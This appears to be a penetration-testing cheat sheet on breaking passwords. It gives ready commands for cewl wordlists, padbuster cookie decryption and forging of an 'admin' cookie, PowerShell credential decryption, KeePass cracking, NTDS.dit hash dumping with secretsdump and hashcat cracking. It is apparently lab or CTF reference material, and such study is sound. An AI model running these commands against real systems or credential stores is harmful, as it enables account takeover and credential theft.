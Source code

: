 # Passwords and hashes
Ways to break password hashes, or just methods to make the brute-force easier.

# Adding salt (as a normal string) to a password file
This is if the password has no salt shown, because it has been concatenated when encrypting, therefore the salt has to be added to the dictionary, line-by-line.
```bash
sed -e 's/^/prefix/' <file> > <file.new>
```


# Cewl
Cewl can be used on a webpage, and if one suspects that a password is hidden somewhere in the website.
[https://www.kali.org/tools/cewl/](https://www.kali.org/tools/cewl/)

## Usage
```bash
cewl -w <wordlist> -d 10 -m 1 <url>
```


# Padding oracle attack
```bash
# Decrypt
padbuster <url> "cookie" 8 -encoding 0 -cookies "cookiename=cookie"

# Encrypt new cookie
padbuster <url> "old_cookie" 8 -encoding 0 -cookies "auth=old_cookie" -plaintext "user=admin"
```

### Reference
- [https://book.hacktricks.xyz/crypto-and-stego/padding-oracle-priv](https://book.hacktricks.xyz/crypto-and-stego/padding-oracle-priv)


# Powershell credentials file
The command below can be used to decrypt a given credentials file. **(has to be logged in as the user)**
```powershell
(Import-CliXml -Path user.txt).GetNetworkCredential().Password
```


# KeePass (jenkins) & kdbx files
1.  Use `keepass2john` to make the file into a hash.
2. Crack the hash file (from step 1) with hashcat, this will give you the **master password**    
    ```bash
    hashcat.bin CEH.kdbx.hash /usr/share/wordlists/rockyou.txt --user
    ```
3. Use `kpcli` to extract passwords: 
    ```bash
    kpcli --kdb <file>.kdbx
    ```
4. Run, `find .` in `kpcl`i will list all of the passwords
5. `show -f [num]` will print a password based on the number that was input 

# .dit and .bin files
**.dit** files contain password hashes     
**.bin** files contain information about the system

## Dump hashes
Assuming these files are on your local machine already.  
- Dump hashes  
    ```bash
    secretsdump.py -ntds <.dit file> -system <.bin file> LOCAL
    ```
- Crack the hashes
    ```bash
    # MD5
    hashcat -m 0 -a 0 hashfile /usr/share/wordlists/rockyou.txt
    # NTLM
    hashcat -m 1000 -a 0 hashfile /usr/share/wordlists/rockyou.txt
    ```

### Troubleshooting
#### If hashcat cannot crack the hashes
Try [crackstation](https://crackstation.net/), the hash might already be in their system.

### References
- [https://aas-s3curity.gitbook.io/cheatsheet/internalpentest/active-directory/post-exploitation/extracting-credentials/retrieve-windows-hashes](https://aas-s3curity.gitbook.io/cheatsheet/internalpentest/active-directory/post-exploitation/extracting-credentials/retrieve-windows-hashes)
- [https://0xdf.gitlab.io/2021/05/19/htb-kotarak.html](https://0xdf.gitlab.io/2021/05/19/htb-kotarak.html)
